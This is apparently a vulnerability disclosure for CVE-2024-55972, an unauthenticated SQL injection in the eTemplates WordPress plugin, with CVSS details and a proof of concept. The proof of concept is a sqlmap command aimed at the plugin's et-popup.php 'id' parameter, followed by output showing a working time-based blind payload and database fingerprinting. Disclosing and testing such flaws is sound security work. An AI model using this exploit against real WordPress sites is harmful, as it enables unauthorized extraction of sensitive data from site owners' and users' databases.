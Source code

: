 # CVE-2024-55972
eTemplates <= 0.2.1 - Unauthenticated SQL Injection

# Description

The eTemplates plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 0.2.1 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: etemplates
- **Affected Version**: 0.2.1
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-55972
- **Status**: Closed

POC
---

```
$ python3 sqlmap.py -u 'http://kubernetes.docker.internal:8099/wp-content/plugins/etemplates/et-popup.php?id=1' --dbms='MySQL ' -p id
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12.2#dev}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:46:24 /2025-01-03/

[12:46:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4484 FROM (SELECT(SLEEP(5)))MYhT)
---
[12:46:25] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[12:47:19] [INFO] confirming MySQL
[12:47:19] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:47:29] [INFO] adjusting time delay to 1 second due to good response times
[12:47:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7
back-end DBMS: MySQL >= 5.0.0

```

